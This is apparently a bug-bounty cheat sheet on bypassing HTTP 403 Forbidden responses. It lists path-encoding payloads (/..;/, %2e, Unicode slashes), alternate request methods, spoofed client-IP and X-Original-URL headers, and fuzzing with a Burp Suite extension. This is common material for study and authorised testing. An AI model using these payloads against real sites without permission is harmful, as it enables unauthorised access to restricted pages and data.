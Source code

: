 <h1> Bypassing 403 Responses </h1> <br>
<b> Install 403 bypass onto Burpsuite from the extender tool, this then becomes an extension you can run on 403 pages on Burpsuite </b></p> <br>

<h2> Directory Brute Forcing </h2><br>
Bruteforce the URL path on the 403 directory. Use different wordlists and experiment to see if you can access further pages after the 403 directory <br>
/access/user - 403    /access/user/properties.json  - 200 OK <br>
<br>

<h2> URL Paths </h2> <br>
Adding the following within the URL and the file that is 403'd <br>
/* <br>
/%2f/ <br>
/./ <br>
/ <br>
/*/ <br> 
/..;/ <br>
/..%3B/ <br> 
<br>
This is common on Apache Tomcat <br>

<h2> Change request methods </h2> <br>
Don't just send a get request, try POST, PATCH, PUT, GET, TRACE <br>
<br>

<h2 Add .json to the end of the file name, or brute force a .json file endpoint after the 403 file </h2>
  /api/user - 403 <br>
  /api/user/properties.json - 200 OK
<br>
  <h2> HTTP Headers </h2> <br>
  Change Host header to value of a subdomain, google.com etc <br>
  <br>
  Fuzz headers that may allow you to bypass <br>
X-Originating-IP: 127.0.0.1 <br>
X-Forwarded-For: 127.0.0.1 <br>
X-Forwarded: 127.0.0.1 <br>
Forwarded-For: 127.0.0.1 <br>
X-Remote-IP: 127.0.0.1 <br>
X-Remote-Addr: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
X-Original-URL: 127.0.0.1 <br>
Client-IP: 127.0.0.1 <br>
True-Client-IP: 127.0.0.1 <br>
Cluster-Client-IP: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
Host: localhost <br>
  
  <br>
  If the path is protected you can try the following headers <br>
 X-Original-URL: /path/file <br>
X-Rewrite-URL: /path/file <br> 
  Your normal request would be a request to / with the headers identifying the actual path. <br>
  <br>
  <h2> Path Fuzzing <h2> <br>
    if /admin is blocked : <br>
Try using /%2e/admin _(if the access is blocked by a proxy, this could bypass the protection). Try also_** /%252e**/admin (double URL encode) <br>
Try Unicode bypass: /%ef%bc%8fadmin (The URL encoded chars are like "/") so when it's encoded back it will be //path and maybe you will have already bypassed the /path name check <br>
    <br>
site.com/secret –> HTTP 403 Forbidden <br>
site.com/SECRET –> HTTP 200 OK <br>
site.com/secret/ –> HTTP 200 OK <br>
site.com/secret/. –> HTTP 200 OK <br>
site.com//secret// –> HTTP 200 OK <br>
site.com/./secret/.. –> HTTP 200 OK <br>
site.com/;/secret –> HTTP 200 OK <br>
site.com/.;/secret –> HTTP 200 OK <br>
site.com//;//secret –> HTTP 200 OK <br>
site.com/secret.json –> HTTP 200 OK (ruby) <br> 
<br>
 For unicoding, if you are trying to access /admin -403, try adding all the unicode characters in this list within the path https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt <br>
The request would be /FUZZadmin - /FUZZ/admin - /adminFUZZ
